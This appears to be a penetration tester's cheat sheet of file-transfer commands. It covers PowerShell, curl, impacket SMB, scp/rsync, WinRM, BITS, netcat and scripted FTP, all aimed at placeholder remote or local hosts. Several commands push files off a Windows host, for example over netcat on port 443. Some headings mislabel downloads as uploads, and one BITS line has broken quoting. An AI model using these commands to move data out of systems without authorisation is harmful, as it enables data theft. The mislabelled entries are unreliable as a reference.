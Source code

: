 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://{REMOTE-IP}/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://{REMOTE-IP}/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------

</br>

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://{REMOTE-IP}/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------

</br>

USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\{LOCAL-IP} /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\{LOCAL-IP}\share\  
------------------------------------------------------------------------------------------------------------------

</br>

USING SSH - 
------------------------------------------------------------------------------------------------------------------

**SCP-**

**Copy a file from Remote PC to Local PC**
    
    scp user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    scp -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    scp -i id_rsa -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**RSYNC-**

**Copy a file from Remote PC to Local PC**
    
    rsync -av user@{REMOTE-IP}:/users/public/demo.txt /tmp/

**Copy a directory from Remote PC to Local PC**

    rsync -r user@{REMOTE-IP}:/users/public/demo/ /tmp/
    
**Copy a directory from Remote to Local with RSA key**

    rsync -av --port 22 -e 'ssh -i id_rsa' -r user@{REMOTE-IP}:/users/public/demo/ /tmp/

------------------------------------------------------------------------------------------------------------------

</br>

USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------

</br>

USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://{LCOAL-IP}/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://{LOCAL-IP}/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://{LOCAL-IP}/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://{LOCAL-IP}/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------

</br>

USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Run NC Server on Local PC**
    
    nc.exe -nlvp 443 > demo.txt

**Run NC Client on Remote PC**
    
    nc -v {LOCAL-IP} 443 < demo.txt
                OR
    type demo.txt | nc.exe -v {LOCAL-IP} 443
------------------------------------------------------------------------------------------------------------------

</br>

USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open {LOCAL-IP} 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt

**FTP Authenticated**

Replace "demo.txt" with desired file name
    
    echo open {LOCAL-IP} 21 > file.txt
    echo user test>> file.txt
    echo test>> file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -v -n -s:file.txt

**Mannualy -**

    ftp
    open {LOCAL-IP} 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------
